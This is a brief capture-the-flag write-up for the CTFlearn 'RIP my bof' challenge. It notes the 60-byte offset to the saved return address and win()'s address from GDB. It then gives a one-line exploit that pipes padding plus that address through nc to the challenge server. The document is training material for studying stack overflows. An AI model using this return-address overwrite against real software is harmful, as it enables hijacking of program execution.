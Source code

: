 # [RIP my bof](https://ctflearn.com/challenge/1011)

The program outputs the stack before and after input; from this we can easily see that return address from vuln() is stored 60 bytes from input buffer \
GDB ./server -> `info functions` -> win() is at **0x08048586**

```shell
echo -n -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x86\x85\x04\x08\n" | nc thekidofarcrania.com 4902
```
